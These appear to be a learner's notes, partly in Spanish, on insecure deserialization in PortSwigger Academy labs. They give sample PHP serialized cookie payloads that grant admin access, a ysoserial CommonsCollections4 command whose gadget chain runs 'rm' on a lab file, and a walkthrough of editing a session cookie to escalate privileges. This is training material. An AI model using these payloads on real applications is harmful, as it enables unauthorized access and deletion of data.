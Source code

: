 > Burp Deserialization Scanner configuration when running burp as sudo, leaving the java path to `java` and the ysoserial path to ``. My scanner detect the java deserialization in the burp issue list but not when i run it manual???

![](Pasted%20image%2020250223003206.png)

# Insecure deserialization

> Some sample Insecure deserialization payloads for various portswigger academy labs.

> PHP serialization format of cookie.

```
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

```
s:11:"avatar_link";s:23:"/home/carlos/morale.txt"
```

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

```
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

<hr>

### LAB: Modificar Objects Serie

* Escalar privilegios, editando el object serializado en la cookie session. 
```js
//1. Tomo la cookie, decodifico a base64. 
//2. Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
//3. Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
//4. 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;} //vamos a modificarlo, el b es el valor bool para settear si es o no admin 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
//Hacemos todo el proceso inverso, codificar todo a base64 y luego a url y actualizamos el valor de la cookie.
//SOLVED.
```
